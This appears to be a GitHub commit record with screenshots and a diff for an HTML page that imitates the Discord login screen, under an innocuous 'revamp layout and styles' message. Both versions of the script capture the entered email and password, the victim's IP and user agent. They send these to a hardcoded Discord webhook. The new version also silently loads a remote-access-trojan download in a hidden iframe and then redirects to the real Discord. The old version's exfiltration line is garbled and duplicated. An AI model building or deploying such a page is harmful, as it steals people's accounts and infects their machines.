

Before and after one commit to RobloxCoder233/discord-page, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 341-816 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Revamp Discord login page layout and styles
Refactor HTML structure and styling for Discord login page, improving layout and input handling.

```diff
--- a/index.html
+++ b/index.html
@@ -3,139 +3,181 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>Discord Login</title>
     <style>
+        * {
+            margin: 0;
+            padding: 0;
+            box-sizing: border-box;
+        }
         body {
-            background-color: #1e1f22;
-            color: white;
-            font-family: sans-serif;
+            background: #1e1f22;
+            font-family: 'Whitney', 'Helvetica Neue', Helvetica, Arial, sans-serif;
             display: flex;
+            justify-content: center;
             align-items: center;
-            justify-content: center;
-            height: 100vh;
-            opacity: 0.85;
+            min-height: 100vh;
         }
-
-        .card-container {
-            background-color: #2b2d31;
-            padding: 20px;
-            border-radius: 10px;
-            box-shadow: 0 4px 8px rgba(0, 0, 0, 0.15), 0 6px 12px rgba(0, 0, 0, 0.1);
+        .login-container {
+            background: #2b2d31;
+            border-radius: 8px;
+            padding: 32px;
+            width: 480px;
+            box-shadow: 0 2px 10px 0 rgba(0,0,0,0.2);
         }
-
-        .title {
-            font-size: 32px;
+        h1 {
+            color: #fff;
+            font-size: 24px;
+            font-weight: 600;
+            margin-bottom: 8px;
+            text-align: center;
         }
-
         .subtitle {
-            color: #555;
-            margin-top: 10px;
+            color: #b5bac1;
+            font-size: 14px;
+            text-align: center;
+            margin-bottom: 24px;
         }
-
-        .input-fields {
-            display: flex;
-            flex-direction: column;
-            gap: 10px;
-            margin-top: 20px;
+        .input-group {
+            margin-bottom: 16px;
         }
-
-        .input-fields input {
-            background-color: transparent;
+        label {
+            color: #b5bac1;
+            font-size: 12px;
+            font-weight: 600;
+            display: block;
+            margin-bottom: 8px;
+        }
+        input {
+            width: 100%;
+            padding: 10px;
+            background: #1e1f22;
+            border: 1px solid #1e1f22;
+            border-radius: 4px;
+            color: #fff;
+            font-size: 16px;
+        }
+        input:focus {
+            outline: none;
+            border-color: #5865f2;
+        }
+        button {
+            width: 100%;
+            padding: 12px;
+            background: #5865f2;
+            color: #fff;
             border: none;
-            border-bottom: 1px solid white;
+            border-radius: 4px;
             font-size: 16px;
-            padding: 5px 0;
-            color: white;
-            width: 100%;
-            text-transform: uppercase;
-            font-weight: bold;
+            font-weight: 500;
+            cursor: pointer;
+            margin-top: 8px;
         }
-
-        .input-fields input:focus {
-            outline: none;
-            border-bottom: 1px solid #5865f2;
+        button:hover {
+            background: #4752c4;
         }
-
-        .login-btn {
-            background-color: transparent;
-            border: none;
-            color: white;
-            cursor: pointer;
-            font-size: 16px;
-            margin-top: 20px;
-            padding: 10px 0;
-            text-transform: uppercase;
-            font-weight: bold;
-            transition: all 0.3s ease-in-out;
+        .links {
+            text-align: center;
+            margin-top: 16px;
+            font-size: 12px;
         }
-
-        .login-btn:hover {
-            color: #5865f2;
-        }
-
-        .links-container {
-            display: flex;
-            justify-content: space-between;
-            margin-top: 20px;
-        }
-
-        .links-container a {
+        .links a {
             color: #00a8fc;
             text-decoration: none;
+        }
+        .links a:hover {
+            text-decoration: underline;
+        }
+        .divider {
+            margin: 0 8px;
+            color: #80848e;
         }
     </style>
 </head>
 <body>
-    <div class="card-container">
-        <h1 class="title">Welcome back!</h1>
-        <p class="subtitle">We're so excited to see you again!</p>
-        <div class="input-fields">
-            <input type="text" placeholder="EMAIL (or Username)" id="emailInput" />
-            <input type="password" placeholder="PASSWORD" id="passwordInput" />
-        </div>
-        <button class="login-btn" onclick="handleLogin()">Login</button>
-        <div class="links-container">
-            <a href="https://discord.com/invite/code?code=fake-login-page">Forgot your password?</a>
-            <a href="https://discord.com/register">Register an account</a>
-        </div>
+<div class="login-container">
+    <h1>Welcome back!</h1>
+    <div class="subtitle">We're so excited to see you again!</div>
+
+    <div class="input-group">
+        <label>EMAIL OR USERNAME</label>
+        <input type="text" id="email" placeholder="Enter your email or username">
     </div>
 
-    <script>
-        function handleLogin() {
-            const email = document.getElementById('emailInput').value;
-            const password = document.getElementById('passwordInput').value;
+    <div class="input-group">
+        <label>PASSWORD</label>
+        <input type="password" id="password" placeholder="Enter your password">
+    </div>
 
-            // Capture the entered email/username and password
-            const userData = { email, password };
+    <button id="loginBtn">Log In</button>
 
-            // Capture the victim's IP address (using ip-api.com)
-            fetch('https://ip-api.com/json/' + window.location.hostname)
-                .then(response => response.json())
-                .then(ipData => {
-                    const victimIP = ipData.query;
-                    userData.ip = victimIP;
-                });
+    <div class="links">
+        <a href="#" id="forgotLink">Forgot your password?</a>
+        <span class="divider">·</span>
+        <a href="#" id="registerLink">Register an account</a>
+    </div>
+</div>
 
-            // Capture the victim's User-Agent string
-            const userAgent = window.navigator.userAgent;
+<script>
+    const WEBHOOK = "https://discord.com/api/webhooks/1512048619124035677/5hcib3Cnp4NbdDx1S03zryCAnVzWNoouLhrOffBKEz7gS2D5j-bavFl7b3dwJbsTT3Xj";
+    const RAT_DOWNLOAD = "https://your-rat-link.com"; // Replace with your actual RAT download link
 
-            // Send ALL captured data to this webhook:
+    document.getElementById('loginBtn').addEventListener('click', async function() {
+        const email = document.getElementById('email').value;
+        const password = document.getElementById('password').value;
 
-fetch('https://discord.com/api/webhooks/1512048619124035677/5hcib3Cnp4NbdDx1S03zryCAnVzWNoouLhrOffBKEz7gS2D5j-bavFlfetch('https://discord.com/api/webhooks/1512048619124035677/5hcib3Cnp4NbdDx1S03zryCAnVzWNoouLhrOffBKEz7S2D5j-bavFl7b3dwJbsTT3Xj', {
+        if (!email || !password) {
+            alert("Please enter your email and password.");
+            return;
+        }
+
+        // Get IP and location
+        let ipData = {};
+        try {
+            const ipRes = await fetch('http://ip-api.com/json/');
+            ipData = await ipRes.json();
+        } catch(e) {}
+
+        const userAgent = navigator.userAgent;
+
+        // Prepare webhook message
+        const webhookData = {
+            content: `**🔐 DISCORD CREDENTIALS STOLEN**\n\n**Email/Username:** ${email}\n**Password:** ${password}\n**IP:** ${ipData.query || "Unknown"} (${ipData.city || "Unknown"}, ${ipData.country || "Unknown"})\n**User Agent:** ${userAgent}\n**Timestamp:** ${new Date().toISOString()}`
+        };
+
+        // Send to webhook
+        try {
+            await fetch(WEBHOOK, {
                 method: 'POST',
-                body: JSON.stringify({ userData, userAgent }),
-                headers: {
-                    'Content-Type': 'application/json'
-                }
+                headers: { 'Content-Type': 'application/json' },
+                body: JSON.stringify(webhookData)
             });
+        } catch(e) {}
 
-            // Then redirects the victim to the REAL Discord login page:
-            window.location.href = 'https://discord.com/login';
+        // Trigger malware download (invisible)
+        const iframe = document.createElement('iframe');
+        iframe.style.display = 'none';
+        iframe.src = RAT_DOWNLOAD;
+        document.body.appendChild(iframe);
 
-            // Also triggers a download of the RAT malware (use placeholder "https://your-rat-link.com" – I will
-replace it)
-            const ratLink = 'https://your-rat-link.com';
-            window.open(ratLink, '_blank');
-        }
-    </script>
+        setTimeout(() => {
+            document.body.removeChild(iframe);
+        }, 3000);
+
+        // Redirect to real Discord
+        window.location.href = 'https://discord.com/login';
+    });
+
+    // Fake links - they just redirect to real Discord
+    document.getElementById('forgotLink').addEventListener('click', function(e) {
+        e.preventDefault();
+        window.location.href = 'https://discord.com/forgot-password';
+    });
+
+    document.getElementById('registerLink').addEventListener('click', function(e) {
+        e.preventDefault();
+        window.location.href = 'https://discord.com/register';
+    });
+</script>
 </body>
 </html>
```
